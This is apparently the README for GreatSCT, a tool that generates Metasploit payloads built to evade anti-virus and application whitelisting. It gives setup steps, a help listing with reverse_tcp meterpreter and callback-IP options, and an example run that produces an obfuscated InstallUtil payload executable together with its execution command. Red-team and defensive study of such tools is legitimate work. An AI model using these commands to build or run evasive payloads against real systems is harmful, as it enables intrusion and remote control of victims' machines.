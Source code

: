 # GreatSCT

GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions.

GreatSCT is current under support by @ConsciousHacker

## Software Requirements:

### Linux

1.  Debian or Kali - run the setup script - sudo ./setup.sh -c

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `./setup.sh -c` on Linux.

Install by cloning from git, not via apt!

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/ConsciousHacker/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/greatsct/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch GreatSCT you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

### Example Usage

GreatSCT's Main Menu:

```===============================================================================
                             GreatSCT | [Version]: 1.0
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

Main Menu

	1 tools loaded

Available Commands:

	exit			Exit GreatSCT
	info			Information on a specific tool
	list			List available tools
	update			Update GreatSCT
	use			    Use a specific tool

Main menu choice: 


```

**Help**
```# ./GreatSCT.py -h
usage: GreatSCT.py [--update] [--version] [--list-tools] [-t Bypass] [--ip IP]
                   [--port Port] [--list-payloads]
                   [-c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]]
                   [-o OUTPUT NAME] [-p [PAYLOAD]] [--clean]
                   [--msfoptions [OPTION=value [OPTION=value ...]]]
                   [--msfvenom [windows/meterpreter/reverse_tcp]]

GreatSCT is a framework to generate application whitelisting bypasses.

GreatSCT Options:
  --update              Update the GreatSCT framework.
  --version             Displays version and quits.
  --list-tools          List GreatSCT's tools
  -t Bypass, --tool Bypass
                        Specify GreatSCT tool to use (Bypass)

Callback Settings:
  --ip IP, --domain IP  IP Address to connect back to
  --port Port           Port number to connect to.

[*] Payload Settings:
  --list-payloads       Lists all available payloads for that tool

Great Scott Options:
  -c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]
                        Custom payload module options.
  -o OUTPUT NAME        Output file base name for source and compiled
                        binaries.
  -p [PAYLOAD]          Payload to generate. Lists payloads if none specified.
  --clean               Clean out payload folders.
  --msfoptions [OPTION=value [OPTION=value ...]]
                        Options for the specified metasploit payload.
  --msfvenom [windows/meterpreter/reverse_tcp]
                        Metasploit shellcode to generate.
```
**GreatSCT Bypass CLI**
```
# ./GreatSCT.py --ip 192.168.157.136 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: installutil_powershell
 [*] Payload Module: installutil/powershell/script
 [*] Executable written to: /usr/share/greatsct-output/compiled/payload4.exe
 [*] Source code written to: /usr/share/greatsct-output/source/payload4.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload4.exe
#
# file /usr/share/greatsct-output/compiled/payload4.exe
/usr/share/greatsct-output/compiled/payload4.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
#
```

### Credits
https://github.com/veil-Framework/

### Licensing
This project is licensed under the GNU General Public License v3 license.
